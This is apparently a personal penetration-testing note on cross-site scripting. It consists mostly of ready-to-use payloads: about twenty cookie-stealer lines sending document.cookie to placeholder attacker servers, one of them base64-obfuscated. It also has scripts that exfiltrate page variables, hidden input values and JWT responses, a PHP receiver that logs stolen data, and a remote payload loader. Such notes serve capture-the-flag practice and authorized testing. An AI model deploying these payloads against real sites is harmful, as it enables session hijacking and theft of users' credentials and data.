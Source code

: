 ```yaml
---
creation date: April 17th 2023
last modified date: April 17th 2023
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[XSS]]  
___

## Description:  
https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting
test
BeEF can be used as an easier way to do some more complicated XSS attacks.
[beEF](https://github.com/beefproject/beef)

### Good test payloads
```
<script>alert(1)</script>
<img src =q onerror=prompt(8)>
```

### Classic Cookie Stealer
```
<img src=x onerror=this.src="http://<YOUR_SERVER_IP>/?c="+document.cookie>
<img src=x onerror="location.href='http://<YOUR_SERVER_IP>/?c='+ document.cookie">
<script>new Image().src="http://<IP>/?c="+encodeURI(document.cookie);</script>
<script>new Audio().src="http://<IP>/?c="+escape(document.cookie);</script>
<script>location.href = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>location = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.location = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.location.href = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.write('<img src="http://<YOUR_SERVER_IP>?c='+document.cookie+'" />')</script>
<script>window.location.assign('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>window['location']['assign']('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>window['location']['href']('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>document.location=["http://<YOUR_SERVER_IP>?c",document.cookie].join()</script>
<script>var i=new Image();i.src="http://<YOUR_SERVER_IP>/?c="+document.cookie</script>
<script>window.location="https://<SERVER_IP>/?c=".concat(document.cookie)</script>
<script>var xhttp=new XMLHttpRequest();xhttp.open("GET", "http://<SERVER_IP>/?c="%2Bdocument.cookie, true);xhttp.send();</script>
<script>eval(atob('ZG9jdW1lbnQud3JpdGUoIjxpbWcgc3JjPSdodHRwczovLzxTRVJWRVJfSVA+P2M9IisgZG9jdW1lbnQuY29va2llICsiJyAvPiIp'));</script>
<script>fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net', {method: 'POST', mode: 'no-cors', body:document.cookie});</script>
<script>navigator.sendBeacon('https://ssrftest.com/x/AAAAA',document.cookie)</script>
```
Here we have used btoa() method for converting the cookie string into base64 encoded string.
Setup http server to catch responses:
```
python3 -m http.server -m 80
```

### One Liner to steal all stored js variables

```
# to the console
<script>for(var p in window) window.hasOwnProperty(p)&&"function"!=typeof window[p]&&console.log(p+": "+window[p])</script>

# to remote server
<script>
  var xhr = new XMLHttpRequest();
  xhr.open('POST', 'https://attacker-server.com/steal.php', true);
  xhr.setRequestHeader('Content-Type', 'application/json;charset=UTF-8');
  var variables = {};
  for (var p in window) {
    if (window.hasOwnProperty(p) && typeof window[p] !== 'function') {
      variables[p] = window[p];
    }
  }
  xhr.send(JSON.stringify(variables));
</script>

# contents of steal.php (I dont know if its needed though)
<?php
$p_session = $_POST['p_session']; // Accessing the stolen p_session value

// Log or process the stolen value as desired
$logFile = 'stolen_data.log';
$logData = date('Y-m-d H:i:s') . ' - p_session: ' . $p_session . "\n";
file_put_contents($logFile, $logData, FILE_APPEND);
?>

```

### Steal the value of hidden input fields on a page

Using BEEF can be an easier way to steal HTML pages and Form Values if you are having trouble with the below

Let's say the target web page contains a hidden input field with an id of "secret":
```
<input type="hidden" id="secret" value="sensitive_value">
```

You can also change this from getElementById to getElementsByName if its using name instead of id.

An attacker can inject a malicious script that retrieves the value of the hidden input field and sends it to a remote server.


```
<script>
  var secretValue = document.getElementById('secret').value;

  // Create an image element and set its source to the attacker's server,
  // passing the secret value as a query parameter
  var img = new Image();
  img.src = 'https://attacker-server.com/steal.php?secret=' + encodeURIComponent(secretValue);
</script>

### Same script on one line

<script>var secretValue=document.getElementById('secret').value;var img=new Image();img.src='https://attacker-server.com/steal.php?secret='+encodeURIComponent(secretValue);</script>

```
Simple alert box POC:
```
<script>alert(document.getElementById('html_input_field').value);</script>
```
Using name instead of id:
```
<script>var p_session = document.getElementsByName("p_session")[0].value; alert("p_session value: " + p_session);</script>
```
### Downloader for longer XSS payloads
```
<script src=http://10.10.14.23:80/payload.js>
```

### stealing value set in a response (such as a jwt token)
Use a downloader to pull the following code:
```
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
	if (xhr.readyState == 4 && xhr.status == 200) {
		var yourtoken = xhr.response
		var xhr2 = new XMLHttpRequest();
		xhr2.open("GET", "http://127.0.0.1:8000/?body=" + yourtoken);
		xhr2.send();
	}
}
xhr.open("GET", "https://some-url.com/v2/authenticationtoken/refresh");
xhr.send();
```
This script will send a request to a specific page as the user and then will send the response back to you.
Make sure to set the first URL as yourself (and open a python http listener) and set the second URL to the request containing the sensitive info in the response.
**This will grab the entire body, use the article below you need to grab a header**

https://medium.com/@agrawalsmart7/steal-csrf-auth-unique-key-header-with-xss-5a54c38d7ec3

### HttpOnly attribute bypass
https://www.shorebreaksecurity.com/blog/xss-exploitation-with-xhr-response-chaining/

### Javascript to make a request to a page as another user

```

var data = new URLSearchParams('email[$ne]=1&password[$regex]=^69.*$');
fetch('http://staff-review-panel.mailroom.htb/auth.php', {
	method: 'POST',
	headers: {
		'Content-Type': 'application/x-www-form-urlencoded'
	},
	body: data.toString()
})
	.then(response => response.text())
	.then(data => {
	// Make a POST request to another website with the data
		fetch('http://10.10.14.23/post', {
			method: 'POST',
			headers: {
				'Content-Type': 'text/plain'
			},
			body: data
		})
			.then(response => console.log('Data sent:', response));
	});

```

# Server Side XSS (Dynamic PDF)
[hacktrick article](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf)
If a web page is creating a PDF using user controlled input, you can try to **trick the bot** that is creating the PDF into **executing arbitrary JS code**.

```
Discovery:
List current directory
<script>document.write('<iframe src="'+window.location.href+'"></iframe>')</script>



```

### XSS is .md files

https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/xss-in-markdown



___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: April 17th 2023 (12:11 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
